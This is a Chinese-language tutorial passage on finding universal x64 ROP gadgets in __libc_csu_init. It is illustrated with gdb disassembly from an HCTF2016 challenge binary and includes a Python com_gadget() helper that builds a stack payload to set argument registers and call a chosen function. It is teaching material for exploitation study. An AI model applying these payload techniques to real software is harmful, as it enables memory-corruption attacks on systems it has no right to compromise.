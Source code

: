 # 通用 gadget


## __libc_csu_init()
我们知道在程序编译的过程中，会自动加入一些通用函数做初始化的工作，这些初始化函数都是相同的，所以我们可以考虑在这些函数中找到一些通用的 gadget，在 x64 程序中，就存在这样的 gadget。x64 程序的前六个参数依次通过寄存器 rdi、rsi、rdx、rcx、r8、r9 进行传递，我们所找的 gadget 自然也是针对这些寄存器进行操作的。

函数 `__libc_csu_init()` 用于对 libc 进行初始化，只要程序调用了 libc，就一定存在这个函数。由于每个版本的 libc 都有一定区别，这里的版本如下：
```
$ file /usr/lib/libc-2.26.so 
/usr/lib/libc-2.26.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /usr/lib/ld-linux-x86-64.so.2, BuildID[sha1]=f46739d962ec152b56d2bdb7dadaf8e576dbf6eb, for GNU/Linux 3.2.0, not stripped
```
下面用 6.1 pwn hctf2016 brop 的程序来做示范，使用 `/r` 参数可以打印出原始指令的十六进制：
```
gdb-peda$ disassemble /r __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x00000000004007d0 <+0>:     41 57   push   r15
   0x00000000004007d2 <+2>:     41 56   push   r14
   0x00000000004007d4 <+4>:     49 89 d7        mov    r15,rdx
   0x00000000004007d7 <+7>:     41 55   push   r13
   0x00000000004007d9 <+9>:     41 54   push   r12
   0x00000000004007db <+11>:    4c 8d 25 16 06 20 00    lea    r12,[rip+0x200616]        # 0x600df8
   0x00000000004007e2 <+18>:    55      push   rbp
   0x00000000004007e3 <+19>:    48 8d 2d 16 06 20 00    lea    rbp,[rip+0x200616]        # 0x600e00
   0x00000000004007ea <+26>:    53      push   rbx
   0x00000000004007eb <+27>:    41 89 fd        mov    r13d,edi
   0x00000000004007ee <+30>:    49 89 f6        mov    r14,rsi
   0x00000000004007f1 <+33>:    4c 29 e5        sub    rbp,r12
   0x00000000004007f4 <+36>:    48 83 ec 08     sub    rsp,0x8
   0x00000000004007f8 <+40>:    48 c1 fd 03     sar    rbp,0x3
   0x00000000004007fc <+44>:    ff 15 f6 07 20 00       call   QWORD PTR [rip+0x2007f6]        # 0x600ff8
   0x0000000000400802 <+50>:    48 85 ed        test   rbp,rbp
   0x0000000000400805 <+53>:    74 1f   je     0x400826 <__libc_csu_init+86>
   0x0000000000400807 <+55>:    31 db   xor    ebx,ebx
   0x0000000000400809 <+57>:    0f 1f 80 00 00 00 00    nop    DWORD PTR [rax+0x0]
   0x0000000000400810 <+64>:    4c 89 fa        mov    rdx,r15
   0x0000000000400813 <+67>:    4c 89 f6        mov    rsi,r14
   0x0000000000400816 <+70>:    44 89 ef        mov    edi,r13d
   0x0000000000400819 <+73>:    41 ff 14 dc     call   QWORD PTR [r12+rbx*8]
   0x000000000040081d <+77>:    48 83 c3 01     add    rbx,0x1
   0x0000000000400821 <+81>:    48 39 dd        cmp    rbp,rbx
   0x0000000000400824 <+84>:    75 ea   jne    0x400810 <__libc_csu_init+64>
   0x0000000000400826 <+86>:    48 83 c4 08     add    rsp,0x8
   0x000000000040082a <+90>:    5b      pop    rbx
   0x000000000040082b <+91>:    5d      pop    rbp
   0x000000000040082c <+92>:    41 5c   pop    r12
   0x000000000040082e <+94>:    41 5d   pop    r13
   0x0000000000400830 <+96>:    41 5e   pop    r14
   0x0000000000400832 <+98>:    41 5f   pop    r15
   0x0000000000400834 <+100>:   c3      ret    
End of assembler dump.
```
从中提取出两段（必须以ret结尾），把它们叫做 part1 和 part2：
```
   0x000000000040082a <+90>:    5b      pop    rbx
   0x000000000040082b <+91>:    5d      pop    rbp
   0x000000000040082c <+92>:    41 5c   pop    r12
   0x000000000040082e <+94>:    41 5d   pop    r13
   0x0000000000400830 <+96>:    41 5e   pop    r14
   0x0000000000400832 <+98>:    41 5f   pop    r15
   0x0000000000400834 <+100>:   c3      ret
```
```
   0x0000000000400810 <+64>:    4c 89 fa        mov    rdx,r15
   0x0000000000400813 <+67>:    4c 89 f6        mov    rsi,r14
   0x0000000000400816 <+70>:    44 89 ef        mov    edi,r13d
   0x0000000000400819 <+73>:    41 ff 14 dc     call   QWORD PTR [r12+rbx*8]
   0x000000000040081d <+77>:    48 83 c3 01     add    rbx,0x1
   0x0000000000400821 <+81>:    48 39 dd        cmp    rbp,rbx
   0x0000000000400824 <+84>:    75 ea   jne    0x400810 <__libc_csu_init+64>
   0x0000000000400826 <+86>:    48 83 c4 08     add    rsp,0x8
   0x000000000040082a <+90>:    5b      pop    rbx
   0x000000000040082b <+91>:    5d      pop    rbp
   0x000000000040082c <+92>:    41 5c   pop    r12
   0x000000000040082e <+94>:    41 5d   pop    r13
   0x0000000000400830 <+96>:    41 5e   pop    r14
   0x0000000000400832 <+98>:    41 5f   pop    r15
   0x0000000000400834 <+100>:   c3      ret
```
part1 中连续六个 pop，我们可以通过布置栈来设置这些寄存器，然后进入 part2，前三条语句（r15->rdx、r14->rsi、r13d->edi）分别给三个参数寄存器赋值，然后调用函数，这里需要注意的是第三句是 r13d（r13低32位）给 edi（rdi低32位）赋值，即使这样我们还是可以做很多操作了。

另外为了让程序在调用函数返回后还能继续执行，我们需要像下面这样进行构造：
```
pop rbx     #必须为0
pop rbp     #必须为1
pop r12     #函数地址
pop r13     #edi
pop r14     #rsi
pop r15     #rdx
ret         #跳转到part2
```

下面附上一个可直接调用的函数：
```python
def com_gadget(part1, part2, jmp2, arg1 = 0x0, arg2 = 0x0, arg3 = 0x0):
    payload  = p64(part1)   # part1 entry pop_rbx_pop_rbp_pop_r12_pop_r13_pop_r14_pop_r15_ret
    payload += p64(0x0)     # rbx must be 0x0
    payload += p64(0x1)     # rbp must be 0x1
    payload += p64(jmp2)    # r12 jump to
    payload += p64(arg1)    # r13 -> edi    arg1
    payload += p64(arg2)    # r14 -> rsi    arg2
    payload += p64(arg3)    # r15 -> rdx    arg3
    payload += p64(part2)   # part2 entry will call [r12+rbx*0x8]
    payload += 'A' * 56     # junk 6*8+8=56
    return payload
```

上面的 gadget 是显而易见的，但如果有人精通汇编字节码，可以找到一些比较隐蔽的 gadget，比如说指定一个位移点再反编译：
```
gdb-peda$ disassemble /r 0x0000000000400831,0x0000000000400835
Dump of assembler code from 0x400831 to 0x400835:
   0x0000000000400831 <__libc_csu_init+97>:     5e      pop    rsi
   0x0000000000400832 <__libc_csu_init+98>:     41 5f   pop    r15
   0x0000000000400834 <__libc_csu_init+100>:    c3      ret    
End of assembler dump.
```
```
gdb-peda$ disassemble /r 0x0000000000400833,0x0000000000400835
Dump of assembler code from 0x400833 to 0x400835:
   0x0000000000400833 <__libc_csu_init+99>:     5f      pop    rdi
   0x0000000000400834 <__libc_csu_init+100>:    c3      ret    
End of assembler dump.
```
`5e` 和 `5f` 分别是 `pop rsi` 和 `pop rdi` 的字节码，于是我们可以通过这种方法轻易地控制 `rsi` 和 `rdi`。

在 6.1.1 pwn HCTF2016 brop 的 exp 中，我们使用了偏移后的 `pop rdi; ret`，而没有用 `com_gadget()` 函数，感兴趣的童鞋可以尝试使用它重写 exp。

除了上面介绍的 `__libc_csu_init()`，还可以到下面的函数中找一找：
```
_init
_start
call_gmon_start
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
frame_dummy
__libc_csu_init
__libc_csu_fini
_fini
```
总之，多试一试总不会错。


## 参考资料
- [一步一步学 ROP 系列](https://github.com/zhengmin1989/ROP_STEP_BY_STEP)
